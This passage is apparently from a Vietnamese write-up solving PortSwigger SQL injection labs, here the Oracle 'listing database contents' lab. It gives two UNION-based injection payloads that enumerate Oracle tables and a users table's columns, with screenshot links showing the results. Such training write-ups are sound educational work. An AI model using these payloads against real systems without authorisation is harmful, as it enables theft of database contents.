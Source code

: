 Có tài khoản xong thì login và solved:

![Solved](slqi-examining-database/solved-listing-database.jpg)

### Lab: SQL injection attack, listing the database contents on Oracle <a name="listing-oracle"></a>

Đường dẫn đến lab [ở đây](https://portswigger.net/web-security/examining-the-database/lab-listing-database-contents-oracle)

Bài này thì tương tự bài [non-Oracle ở trên](#listing-non-oracle). Do đó, mình sẽ làm tương tự.

`Payload: "Gifts' UNION SELECT null,table_name FROM all_tables--"`

![Show all table](slqi-examining-database/users-table-oracle.jpg)

`Payload: "Gifts' UNION SELECT null,column_name FROM all_tab_columns WHERE table_name='USERS_TXZJUA'--"`

![show-detail-table-oracle](slqi-examining-database/show-detail-table-oracle.jpg)
